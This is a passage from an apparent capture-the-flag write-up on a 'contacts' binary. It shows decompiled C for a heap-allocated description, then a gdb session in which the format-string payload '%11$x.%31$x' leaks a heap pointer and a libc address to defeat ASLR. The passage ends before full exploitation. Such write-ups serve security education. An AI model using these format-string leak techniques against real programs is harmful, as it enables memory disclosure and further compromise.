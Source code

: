 Where contact_list is a variable located at 0x0804B0A0 in the .bss segment.
As we can see in the function that adds a description to a contact (called by *create_contact*) the contact description is located on the heap:

```c
char *__cdecl description(int a1)
{
  char *result; // eax@3
  int v2; // [sp+1Ch] [bp-Ch]@1

  printf("\tLength of description: ");
  __isoc99_scanf("%u%*c", &v2);
  *(_DWORD *)(a1 + 72) = v2;
  *(_DWORD *)a1 = malloc(v2 + 1);
  if ( !*(_DWORD *)a1 )
    exit(1);
  printf("\tEnter description:\n\t\t");
  fgets(*(char **)a1, v2 + 1, stdin);
  result = *(char **)a1;
  if ( !*(_DWORD *)a1 )
    exit(1);
  return result;
}
```

## The Infoleak

Given that this is an arbitrary-control format string vulnerability we can use it for both infoleaking and exploitation purposes. Loading the binary in gdb, getting the base address of libc (which will be ASLR-randomized) and subsequently comparing the information leaked by the infoleak shows us that we can (using direct format string parameter access) leak a pointer to our own description string on the heap as well as a return-address pointer into libc.

```bash
gdb ./contacts
(gdb) b *0x080485c0
(gdb) r
Breakpoint 1, 0x080485c0 in ?? ()
(gdb) info sharedlibrary
From        To          Syms Read   Shared Object Library
0xb7fde820  0xb7ff6baf  Yes (*)     /lib/ld-linux.so.2
0xb7e3ef10  0xb7f7444c  Yes (*)     /lib/i386-linux-gnu/libc.so.6
(*): Shared library is missing debugging information.
(gdb) c
Continuing.
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 1
Contact info: 
  Name: infoleak
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
  Enter Phone No: 1337
  Length of description: 900
  Enter description:
    %11$x.%31$x
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
```